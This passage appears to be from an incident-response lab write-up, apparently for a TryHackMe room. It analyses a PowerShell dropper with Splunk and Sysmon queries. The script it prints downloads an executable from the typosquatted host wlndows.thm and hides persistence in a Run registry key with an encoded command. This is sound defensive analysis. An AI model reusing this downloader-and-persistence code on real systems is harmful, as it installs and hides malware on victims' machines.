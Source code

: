 ```powershell
$dest = "$env:APPDATA\SystemHealthUpdater.exe"
$url = "http://global-update.wlndows.thm/SystemHealthUpdater.exe"

# Download file
Invoke-WebRequest -Uri $url -OutFile $dest

# Base64 encode the command
$encoded = [Convert]::ToBase64String(
    [Text.Encoding]::Unicode.GetBytes("Start-Process '$dest'")
)

# Build persistence command
$runCmd = 'powershell.exe -NoP -W Hidden -EncodedCommand ' + $encoded

# Add to registry for persistence
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' `
    -Name 'Windows Update Monitor' -Value $runCmd
```

This script downloads a file named **`SystemHealthUpdater.exe`** from a suspicious domain (**`wlndows.thm`),** and save it ****to the user's **`%APPDATA%`** folder. Then it establishes a persistence by creating a new entry in the Windows Registry under the current user's **Run key** with the name **`Windows Update Monitor`**

**2. Check the execution of the script**

```powershell
* ParentProcessId="1616"
```

<img width="1489" height="816" alt="image" src="https://github.com/user-attachments/assets/0ecc73b2-a46a-475b-9264-ed18eefd1b2b" />

- **timestamp**: 21/06/2025 10:58:27.000
- **CommandLine**: powershell.exe -NoP -W Hidden -EncodedCommand <base64>

1. **Check Registry Modification**

```powershell
* SourceName="Microsoft-Windows-Sysmon" EventCode=13
| table _time,host,TargetObject
```

<img width="1905" height="308" alt="image" src="https://github.com/user-attachments/assets/12d6ea9a-43a0-4c80-a894-d0c4d885b87b" />

<img width="1503" height="776" alt="image" src="https://github.com/user-attachments/assets/5b9e7f66-a9cc-4286-a926-f201bde1eae5" />

- Time: 2025-06-21 10:58:29
- CommandLine: powershell.exe -NoP -W Hidden -EncodedCommand <base64>
- TargetObject: HKU\S-1-5-21-1966530601-3185510712-10604624-500\Software\Microsoft\Windows\CurrentVersion\Run\Windows Update Monitor
- TaskCategory: Registry value set (rule: RegistryEvent)

---

# **Cyber Attack Case Report**
